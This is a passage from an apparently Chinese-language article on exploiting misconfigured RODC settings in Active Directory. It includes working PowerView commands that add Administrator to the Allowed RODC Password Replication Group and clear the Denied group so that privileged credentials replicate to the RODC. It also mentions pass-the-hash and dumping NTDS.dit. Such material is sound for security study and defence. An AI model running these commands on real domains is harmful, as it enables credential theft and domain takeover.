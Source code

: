 （4）最后通过哈希传递即可获取可写域控制器权限。

## Misconfig #3 - Control of The 'Allowed/Denied RODC Password Replication Group'

控制域中 Allowed/Denied RODC Password Replication Group 对象允许攻击者任意添加或删除组中的成员，从而控制可以复制 RODC 的账户凭据。例如，通过修改 Allowed RODC Password Replication Group 组对象的 member 属性，将特权账户例如域管理员账户添加到 Allowed RODC Password Replication Group 组中，如下所示。

```powershell
# 导入 PowerView 模块
Import-Module .\PowerView.ps1
# 获取当前属性值
Get-DomainObject 'CN=Allowed RODC Password Replication Group,CN=Users,DC=corp,DC=local' -Properties 'member' | Select-Object -ExpandProperty 'member'
# 设置新的属性值
Set-DomainObject -Identity 'CN=Allowed RODC Password Replication Group,CN=Users,DC=corp,DC=local' -Set @{'member'=@(
    'CN=Allowed RODC Password Replication Group,CN=Users,DC=corp,DC=local', 
    'CN=Domain Users,CN=Users,DC=corp,DC=local',
    'CN=Administrator,CN=Users,DC=corp,DC=local'
)}
```

（2）如果有必要，暂时将 Denied RODC Password Replication Group 对象的 member 属性中值清空：

```powershell
# 导入 PowerView 模块
Import-Module .\PowerView.ps1
# 获取当前属性值
Get-DomainObject 'CN=Denied RODC Password Replication Group,CN=Users,DC=corp,DC=local' -Properties 'member' | Select-Object -ExpandProperty 'member'
# 清空 member 的属性值
Set-DomainObject -Identity 'CN=Denied RODC Password Replication Group,CN=Users,DC=corp,DC=local' -Clear 'member'
# 恢复 member 的属性值
Set-DomainObject -Identity 'CN=Denied RODC Password Replication Group,CN=Users,DC=corp,DC=local' -Set @{'member'=@(
    'CN=Denied RODC Password Replication Group,CN=Users,DC=corp,DC=local', 
    'CN=Account Operators,CN=Builtin,DC=corp,DC=local',
    'CN=Server Operators,CN=Builtin,DC=corp,DC=local',
    'CN=Backup Operators,CN=Builtin,DC=corp,DC=local',
    'CN=Administrators,CN=Builtin,DC=corp,DC=local'
)}
```

需要注意的是，该情景只有在接管了 RODC 主机之后才存在利用的机会，因为需要从 RODC 上的 NTDS.dit 中导出已复制的用户凭据。此外，由于 Denied RODC Password Replication Group 组中明确禁止了特权账户凭据的复制，往往需要修改 Denied RODC Password Replication Group 组后才能使得特权账户的凭据被复制到 RODC，但允许同时控制这两个组的错误配置发生的可能性比较小。

## Misconfig #4 - Control of The 'RODC Admins'

IT 团队在创建 RODC 后，往往会将 RODC 的管理权限委派给一个用户或组（在本篇文章中统称为 “RODC Admins”）。由于 RODC Admins 用户或组通常是企业/组织自定义的，并且默认情况下不受 AdminSDHolder 等系统机制的保护，因此容易存在错误配置的 DACL。
